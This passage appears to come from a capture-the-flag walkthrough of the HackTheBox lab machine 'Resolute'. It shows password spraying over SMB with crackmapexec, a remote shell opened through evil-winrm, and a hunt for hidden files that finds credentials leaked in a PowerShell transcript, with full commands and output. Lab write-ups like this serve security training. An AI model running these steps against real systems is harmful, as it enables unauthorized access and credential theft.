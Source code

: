 We can use the following command to extract the usernames.

`awk -F'[' '{print $2}' namesfromenum.txt | awk -F']' '{print $1}' > users.txt`

Next, let's spray the password `Welcome123!` with `crackmapexec`.

First, let's try spraying SMB.

```
$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
<SNIP>
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123! 
```

It works for the user `melanie`. Let's try if the credentials work on WinRM as well.

```
$ evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```

We find the **user.txt** on melanie's Desktop.

## Finding Credentials In Hidden Files

As part of our enumeration, we searched for hidden files on the machine. 

`*Evil-WinRM* PS C:\> ls -recurse -hidden -erroraction silentlycontinue`

```
<SNIP>
    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
<SNIP>
```

A [powershell transcript](https://mcpmag.com/articles/2015/11/18/use-powershell-transcripts.aspx) stands out.

Reviewing the transcript reveals a set of credentials.

```
*Evil-WinRM* PS C:\> cat C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
<SNIP>
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
<SNIP>
```
